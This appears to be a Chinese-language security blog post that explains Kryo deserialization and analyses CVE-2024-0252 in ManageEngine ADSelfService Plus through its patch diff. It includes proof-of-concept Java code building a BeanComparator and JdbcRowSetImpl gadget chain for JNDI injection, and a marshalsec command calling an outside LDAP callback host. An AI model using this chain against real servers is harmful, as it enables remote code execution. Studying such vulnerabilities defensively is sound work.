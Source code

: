 
从 CVE-2024-0252 学习 kryo 反序列化

- - -

# 从 CVE-2024-0252 学习 kryo 反序列化

## kryo 介绍

项目地址：[https://github.com/EsotericSoftware/kryo](https://github.com/EsotericSoftware/kryo)  
介绍和简单使用移步：[https://cloud.tencent.com/developer/article/1872432](https://cloud.tencent.com/developer/article/1872432)

## kryo 反序列化

和 hessian 类似，关于反序列化 kryo 有大致以下特性：

1.  两种初始化策略：DefaultInstantiatorStrategy（默认）、StdInstantiatorStrategy  
    详细解释参考（[https://blog.csdn.net/liuxiangke0210/article/details/78377677）](https://blog.csdn.net/liuxiangke0210/article/details/78377677%EF%BC%89)
2.  默认配置实例化对象时需要一个默认 public 构造函数并且不支持代理。
3.  5.0 版本以上默认配置 registrationRequired 值为 true，所有待反序列化的类都需要进行注册，相当于白名单。

kryo 提供了两个反序列化函数：

-   readClassAndObject
-   readObject(Input input, Class<t> type)  
    反序列化逻辑差不多都是获取到反序列化器再调用其 read 方法进行反序列化，不同的是后者需要指定反序列化的类型（序列化器在 com.esotericsoftware.kryo.serializers 下）。</t>

写个漏洞 demo 看看

-   依赖

```plain
<dependency>
    <groupId>com.esotericsoftware</groupId>
    <artifactId>kryo</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

```plain
//java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Kryo CommonsBeanutils ldap://jndi.callback.red:5/ub4t/
Kryo kryo = new Kryo();
kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
Input input = new Input(new FileInputStream("D:\\1.txt"));
kryo.readClassAndObject(input);
input.close();
```

有关利用链在 marshalsec 工具提供了一些：

```plain
marshalsec.Kryo:[SpringAbstractBeanFactoryPointcutAdvisor, CommonsBeanutils]

//kryo.setInstantiatorStrategy(new Kryo.DefaultInstantiatorStrategy(new StdInstantiatorStrategy()));
marshalsec.KryoAltStrategy:[Groovy, SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin, LazySearchEnumeration, BindingEnumeration, ServiceLoader, ImageIO, CommonsBeanutils]
```

## ManageEngine ADSelfService Plus CVE-2024-0252 简要分析

-   环境[https://archives2.manageengine.com/self-service-password/](https://archives2.manageengine.com/self-service-password/)
-   影响版本：6401 之前

下载补丁 diff 主要新增了一行代码

```plain
kryo.setRegistrationRequired(true);
```

[![](assets/1706496901-0ccfb8ab36f09035b456207ad18f5a3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240126153422-52d6ff12-bc1d-1.png)

看了下 kryo 组件的版本是 4.0.1（RegistrationRequired 值默认为 false），基本断定漏洞点就是这儿的反序列化，但是工具类里并不是调用 readClassAndObject，而是调用 readObject 方法反序列化为指定的类型（这里是 hashmap）。

上面提到过反序列化时会调用对应的处理器进行反序列化，这里处理 map 类型的序列化器是 MapSerializer，跟进其 read 方法查看最终还是调用的 readClassAndObject 方法进行的反序列化，即在如下场景下同样能触发反序列化。

```plain
kryo.readObject(input, HashMap.class);
```

下面是用的是工具类里的 cb getter+JdbcRowSetImpl 触发 JNDI 注入的链子，然后再用 Haspmap 包装一下，构造 POC

```plain
public static HashMap<String, Object> exp(String jdniUrl) throws Exception {
    BeanComparator cmp = new BeanComparator("lowestSetBit", Collections.reverseOrder());
    Object trig = makeTreeMap(makeJNDIRowSet(jdniUrl), cmp);
    setFieldValue(cmp, "property", "databaseMetaData");
    HashMap<String, Object> hashMap = new HashMap();
    hashMap.put("test",trig);
    return hashMap;
}
public static TreeMap<Object, Object> makeTreeMap (Object tgt, Comparator comparator ) throws Exception {
    TreeMap<Object, Object> tm = new TreeMap<>(comparator);

    Class<?> entryCl = Class.forName("java.util.TreeMap$Entry");
    Constructor<?> entryCons = entryCl.getDeclaredConstructor(Object.class, Object.class, entryCl);
    entryCons.setAccessible(true);
    Field leftF = getField(entryCl, "left");

    Field rootF = getField(TreeMap.class, "root");
    Object root = entryCons.newInstance(tgt, tgt, null);
    leftF.set(root, entryCons.newInstance(tgt, tgt, root));
    rootF.set(tm, root);
    setFieldValue(tm, "size", 2);
    return tm;
}
```

有趣的是 github 早就放了 poc 不过是个马儿[https://github.com/forsaken0128/CVE-2024-0252-RCE](https://github.com/forsaken0128/CVE-2024-0252-RCE) (404 了)

## 参考

[https://cloud.tencent.com/developer/article/1624416](https://cloud.tencent.com/developer/article/1624416)  
[https://blog.csdn.net/liuxiangke0210/article/details/78377677](https://blog.csdn.net/liuxiangke0210/article/details/78377677)
